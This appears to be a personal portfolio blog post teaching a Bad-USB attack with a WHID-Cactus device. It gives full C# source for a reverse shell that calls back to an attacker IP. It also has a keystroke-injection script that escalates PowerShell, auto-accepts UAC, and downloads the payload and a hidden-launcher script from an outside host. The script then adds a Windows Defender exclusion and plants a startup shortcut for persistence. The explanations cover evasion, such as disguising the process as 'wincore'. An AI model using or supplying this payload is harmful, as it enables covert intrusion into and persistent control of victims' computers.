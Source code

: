 ```yaml
---
permalink: /portfolio/whid/
author: Rick Theeuwes

defaults:
  # _pages
  - scope:
      path: ""
      type: pages
    values:
      layout: single
      author_profile: true
toc: true
title: Hacking with WHID
---
```


## Presistent reverse shell

A reverse shell is great, but what if he stayed, no matter what? Using a Bad-USB of any kind, you can inject a payload to create a persistent reverse shell.

### The shell

First, we need our shell. This will be an executable written in `dotnet core 3.1` ([source](https://www.puckiestyle.nl/c-simple-reverse-shell/)):

```C#
using System;
using System.Diagnostics;
using System.IO;
using System.Net.Sockets;
using System.Text;
using System.Threading;

namespace Shell1
{
    class Program
    {
        static StreamWriter streamWriter;

        public static void Main(string[] args)
        {
            while (true)// keep going
            {
                try
                {
                    connect();
                }
                catch { }

                Thread.Sleep(60000); //wait a minute before reconnecting
            }
        }

        private static void connect()
        {
            using(TcpClient client = new TcpClient("192.168.241.1", 8090)) //connect to attacker
            {
                using(Stream stream = client.GetStream())
                {
                    using(StreamReader rdr = new StreamReader(stream))
                    {
                        streamWriter = new StreamWriter(stream);
                        StringBuilder strInput = new StringBuilder();

                        Process p = new Process();
                        p.StartInfo.FileName = "cmd.exe"; //use cmd, so it becauses a shell
                        p.StartInfo.CreateNoWindow = true;
                        p.StartInfo.UseShellExecute = false;
                        p.StartInfo.RedirectStandardOutput = true;
                        p.StartInfo.RedirectStandardInput = true;
                        p.StartInfo.RedirectStandardError = true;
                        p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
                        p.Start();
                        p.BeginOutputReadLine();

                        while(true)
                        {
                            strInput.Append(rdr.ReadLine());
                            //strInput.Append("\n");
                            p.StandardInput.WriteLine(strInput);
                            strInput.Remove(0, strInput.Length);
                        }
                    }
                }
            }
        }

        private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);// show the output
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch { }
            }
        }
    }
}
```

This code creates a reverse shell to the gives IP address, which is restarted every minute after closing. But this program has to be started by a user after every reboot. And the users won't just trust every program, so we need something to get the executable on the victim's system without their knowledge. Here the Bad-USB comes into play. For this example I used my WHID-Cactus, but it can be rewritten and used on any Bad-USB. I only changed the contents of the main method, so that the shell would reconnect after a minute.

```whid
Press:131+114
Print:powershell
Press:128+129+176
Press:216+176
PrintLine:(New-Object System.Net.WebClient).DownloadFile("http://192.168.241.1/shell.exe", "$env:APPDATA\..\Local\Microsoft\Windows\0\wincore.exe") //TODO MY ip
PrintLine:(New-Object System.Net.WebClient).DownloadFile("http://192.168.241.1/invis.vbs", "$env:APPDATA\..\Local\Microsoft\Windows\0\start.vbs")
PrintLine:Add-MpPreference -ExclusionProcess "wincore.exe"
PrintLine:$s = (New-Object -comObject WScript.Shell).CreateShortcut("$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\wincore.lnk"); $s.TargetPath="C:\Windows\System32\wscript.exe";$s.Arguments="`"$env:APPDATA\..\Local\Microsoft\Windows\0\start.vbs`" `"C:\Users\admin\AppData\Local\Microsoft\Windows\0\wincore.exe`""; $s.Save();
exit
```//TODO sources

This little piece of code will make the perfect shell. Let's look at it line by line.

```whid
Press:131+114
```

This simulates a key-press by using Arduino keyboard-codes. `131` is the Windows-key and `114` is the letter 'r'. This will open the `Run` box on windows, allowing you to start an executable.

```whid
Print:powershell
```

This just types powershell into the `Run` box without an `enter` key pressed.

```whid
Press:128+129+176
Press:216+176
```

The first line uses the Arduino codes again to press `control`, `shift` and `enter`. This will run the given command (`powershell`) as administrator, we need this to disable Windows Defender. The second line will type the left arrow and `enter`, so that the UAC (admin-prompt) is answered with `yes`.

```powershell
PrintLine:(New-Object System.Net.WebClient).DownloadFile("http://192.168.241.1/shell.exe", "$env:APPDATA\..\Local\Microsoft\Windows\0\wincore.exe")
PrintLine:(New-Object System.Net.WebClient).DownloadFile("http://192.168.241.1/invis.vbs", "$env:APPDATA\..\Local\Microsoft\Windows\0\start.vbs")
```

This is where the juicy stuff starts, first we download the `shell.exe` and a `vb` script called `invis.vbs`.

```vbs
CreateObject("Wscript.Shell").Run """" & WScript.Arguments(0) & """", 0, False
```

Why do we need this? This little script runs an executable completely hidden. Only far into taskmanager can you find the process, but nobody expects a process called `wincore` to be evil.

Both files are downloaded into `C:\users\{user}\AppData\Local\Microsoft\Windows\0\`, a folder very little people dare to even open, this is just another step to make the shell look like a windows process to "normal" people.

```powershell
PrintLine:Add-MpPreference -ExclusionProcess "wincore.exe"
```

This line is the reason that powershell must start with privileges, this line makes a exclusion in Defender for all the processes named `wincore.exe`. This allows the shell to run without any interjection from Windows Defender.

```powershell
PrintLine:$s = (New-Object -comObject WScript.Shell).CreateShortcut("$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\wincore.lnk"); $s.TargetPath="C:\Windows\System32\wscript.exe";$s.Arguments="`"$env:APPDATA\..\Local\Microsoft\Windows\0\start.vbs`" `"C:\Users\admin\AppData\Local\Microsoft\Windows\0\wincore.exe`""; $s.Save();
```

And lastly, we create a shortcut in `C:\users\{user}\AppDate\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\`. Everything executable or shortcut in this folder is run after the user logs in. This way we can start our shell every time the system boots. This does not run the shell yet, however if you want to run it immediately, you can just add this line to the script:

```powershell
PrinteLine:C:\Windows\System32\wscript.exe "C:\Users\admin\AppData\Roaming\..\Local\Microsoft\Windows\0\start.vbs" "C:\Users\admin\AppData\Local\Microsoft\Windows\0\wincore.exe"
```

This is simply the content of the shortcut.

We end the script with `exit`, so the user does not see that something is up. Currently, the script consists of multiple lines executed in powershell, but if it is rewritten to one powershell command that runs in the background, this injection can take only a few seconds to be ready. The execution then happens on the background, even when the usb is pulled out.
